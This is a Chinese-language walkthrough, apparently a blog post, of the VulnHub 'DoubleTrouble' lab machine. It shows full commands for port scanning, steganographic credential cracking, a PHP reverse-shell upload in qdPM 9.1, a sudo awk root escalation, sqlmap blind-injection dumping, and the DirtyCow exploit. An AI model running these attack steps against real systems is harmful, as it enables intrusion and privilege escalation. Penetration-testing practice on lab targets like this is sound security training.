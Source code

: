 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/sKXnlUBGg2wDtWd7FMjDJw)

**下载地址**

```
https://www.vulnhub.com/entry/doubletrouble-1,743/
```

**环境搭建**

```
VirtualBox，vmware
靶机：192.168.56.106
kali：192.168.56.102
```

**获取靶机 IP**

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKulQ82BahfiaOvQVAciaJefWSeibqELcOsdhcgBBFyAstX7RBMP3A8iajnUA/640?wx_fmt=png)

```
靶机IP为：192.168.56.106
```

**端口扫描**

```
nmap -A 192.168.56.106 -p 1-65535
```

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKuejBYTY8m6IQwFNJYyO34KG38VlicqWWvhibiatw03fzmO9VG5E4lWzJMQ/640?wx_fmt=png)

发现开启了 22，80 端口

打开网站，发现是一个后台登陆界面  

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKu1VIQBjErt7oCqEf8z563yNoz8MqVNibQA8ibudG3NRtdT8sdOnYVuzuw/640?wx_fmt=png)

最下面也可以看到是 qdPM9.1，尝试了万能密码，和弱口令都无法进行登录，sql 注入也没法进行注入。

看上去有点像是 shiro 框架，利用 shiro 反序列化工具进行测试，无果。  
通过搜索引擎查找相关的漏洞，发现都是要登录后台才能利用的

**目录扫描**

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKunDZkVPHxiboPI0zC5WHmodBE90gXPszjuIzibroNnRYFHMYbapgem5Vw/640?wx_fmt=png)

在 install 目录中发现的也是 qdPM9.1

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKu7e8GIQb6F4eycNpe5OPkSeMIVjGibibticlgmayE2hImJNfpUuaW6NDXw/640?wx_fmt=png)

在 secret 中有一张奇怪的图  doubletrouble.jpg。和靶机的名字一毛一样  

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKuRpvOneQC2gkzGRo0J3sibQIIAAwN0aFKOh03tu2xXcgeZMC8dicyjG9g/640?wx_fmt=png)

使用 stegseek 对图片进行解密  只能在 linux 中安装，我是在 kali 里安装的

```
github：https://github.com/RickdeJager/stegseek/releases
```

kali 自带了 rockyou.txt，不过可能是 rockyou.txt.gz 形式，需要解压一下

```
gunzip /usr/share/wordlists/rockyou.txt.gz   #解压
sudo stegseek ./doubletrouble.jpg /usr/share/wordlists/rockyou.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKuMtyic2Wgu8sGORia1bziaYmutGj0iatTgo8hP70DUWvHsVss4ZK20Kc3yQ/640?wx_fmt=png)  

果然这张图有问题     得到账号和密码

```
otisrush@localhost.com/otis666
```

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKum4lwh1taNTjXSLnPwsYBFouWJSGkGNUSr5q8S5AduibSr97l8zpRpCA/640?wx_fmt=png)

成功登录了后台

**qdPM 漏洞利用**  

在 db 里的一个远程代码执行漏洞

https://www.exploit-db.com/exploits/50175

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKucapuKp9zxD69u2gddWSYBv97lJHjdfzW6krYhzr3WFPKOA4LSy7Z4A/640?wx_fmt=png)

把这个下载下来，在本地使用 python 运行，格式有点问题 ，有些地方需要把回车调一下

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKulPacGqqCKBTwZsDFwGribhtBib2t9yGgMuGE6DO9tOoIjTKx9ia3FbzeA/640?wx_fmt=png)

脚本出错，，在 upload / 目录下没有看到上传的 shell，上传失败。

分析漏洞代码，发现就是用户的 myAccount 界面的图片那一栏是可以上传文件的，那我们就可以上传一个 php 反弹 shell 的脚本。  

上传 shell 的地址：

```
http://192.168.56.106/index.php/myAccount
```

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKuCGh3TibJ4zkcpibDlZYXwYM0JJbwI0ib70sWPpsbqR4jeoEeSuA1Fbhiaw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKuUntktFLD2DBXsZT31NhILLxqNyIBswx8b06mibUm0QluZeMUh1868eg/640?wx_fmt=png)

看着是报错了，感觉没有上传成功，但是去 upload 目录进行查看，是上传成功了的

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKutwJeOVPGADRopF4qpvWaiay2MH821yHkZQdesmke5FbjtRxUc3nErSA/640?wx_fmt=png)

kali 监听自身端口 4444，刷新马子页面，即可获取执行 shell。  

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKu1BL1qqog5RLsV4cKqf80MVr90riakSXzjy8oABnwbCVIvqTcJfYh0lQ/640?wx_fmt=png)

提权

查看当前用户能使用 sudo 的权限 ，可免密执行 awk 命令

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKulpKkTVdlw0eYQX8RLu2ctGXf0p1lficT8Wg1bVvRaTbgTPfiahWEM4JA/640?wx_fmt=png)

搜索引擎搜索 awk，发现该命令可以进行提权，使用如下命令

```
sudo awk 'BEGIN{system("/bin/bash")}'
```

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKujMws3Fia8doF6gJFByd9pDGrtZT2Dq2uqoVD6Ergm69apmlxYaup0sw/640?wx_fmt=png)

获得了 root 权限  ，切换到 root 家目录

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKue1yaHR0vogKJNV8XHc4cMvc8qK49UxkujCFQQLJX9Zmicbyb0JxUqaQ/640?wx_fmt=png)

看到了一个和靶机一样的文件

查看靶机是否有 python 环境  

```
python –-version
```

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKuZl5xtBvouMkwCosxa09OcsP23ic8lEA1O1Jzr8R8Mukw1hlFXz4nEwg/640?wx_fmt=png)

python 开启 http 服务进行下载

```
Python >= 2.4
python -m SimpleHTTPServer 8000
```

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKuCM8Ul4jaTZO6yF3NR2Ukh8l8iarDVulkjBhsA9Bz0icjFoMQSheRvBlg/640?wx_fmt=png)

在本地导入下载的 doubletrouble.ova

**获取** **doubletrouble.ova 的 IP**

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKuic3FRiaVgaFrGWc14CZjXI5VRmzS9FOyIGFDTj1DkVPrHMhYIiaaDV2OQ/640?wx_fmt=png)

```
靶机IP为：192.168.56.107
```

**端口扫描**

```
nmap -A -p 1-65535 192.168.56.107
```

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKu3sxTElXXAyicJdCpZJSp5T8HW22jiaVzTficuve43SicnYiaH8icvt7WSFyg/640?wx_fmt=png)

开启了 22 和 80 端口

80 端口进行查看网站是一个登录页面

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKuwqLAYldv1cicar0WibYy5FBBUJXYgMFiaYOep8UdegI7neb3zKJvkPDbw/640?wx_fmt=png)

**目录扫描**

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKuDePLCxiaAQUHfhOc488nFH0NK2ib9ibXt0BCkibdDLdKPwhCwr4wASjbNg/640?wx_fmt=png)

只得到了一个 index.php 页面也就是登录界面，进行万能密码的尝试

查看是否存在注入

burp 抓包，使用 sqlmap 测试发现是存在延时盲注

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKunddb6qAmAwpMhXI6YEhJ6zaTKHBgItibvRNqeotDqEAgTDReh3vOr6A/640?wx_fmt=png)

使用 sqlmap 跑出来两个账号密码

```
python2 sqlmap.py -r 111.txt -p uname -Ddoubletrouble -T users --dump
```

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKuk2OAqibC8KWbrasz7j4GrXaf0S68FHIQZSAvtXvrxs9Ixb05SfqzAwg/640?wx_fmt=png)

使用这两个账号密码登录网站发现都是无法登录

尝试登录 ssh，使用第二个账号密码成功登录 ssh

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKuK41kr98CskamPTTTJMwSDHIDnicU6y5Y7lUH2UfiajkiahaMlwW5NIGQA/640?wx_fmt=png)

**提权**  

不存在 sudo 命令

```
查看系统版本
uname -r
uname -a
得到的是3.2.0
```

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKuxf2EXv5lBuiaFvuAsLlDKiaRUr6tcxmvZrdIdcQYnDuda69AS4ZKwm3g/640?wx_fmt=png)

```
cat /etc/*-release 发现是debain 7
```

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKu0133V8HoPeQCdWzYFNzIH5NLynJNAJ0vMGRp4xktblx2JsD9Wo64icw/640?wx_fmt=png)

搜索引擎查找相关提取漏洞，发现可以通过脏牛提权

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKuecEXNrKIk4UhibMloC1fZotPRxeNIuuRemicuwQI6IICVdRTzTwlE0LA/640?wx_fmt=png)

```
Github：https://github.com/FireFart/dirtycow
```

这个 poc 可以生成一个账号名为 firefart 的 root 用户

下载 poc 上传到靶机的 tmp 目录下，然后编译，执行

```
gcc -pthread dirty.c -o dirty -lcrypt
./dirty
```

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKuicXCNMObibNia19GsmheMshUqWEBShXoQTCxdKxulm81KUrN3fHicy4ibAg/640?wx_fmt=png)

```
su – firefart
root
```

成功提权到 root 权限，获得 flag

![](https://mmbiz.qpic.cn/mmbiz_png/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKuYm81KpSChhOia9PNXIvYtA9aD4iaaumc07UCJqldMibRE2byyfmshhobQ/640?wx_fmt=png)

**本次知识分享到这就结束了，谢谢大家的观看**  

**_可以加入微信群进行学习交流_**  

![](https://mmbiz.qpic.cn/mmbiz_jpg/0YvAy5BgkyOcrEEBGfuI021gFgDcsXKuKGiaaECFP3tWgaVwod47s5L6osZeXFIfCGnkOo5O5ialWtfeWiaqibkicwA/640?wx_fmt=jpeg)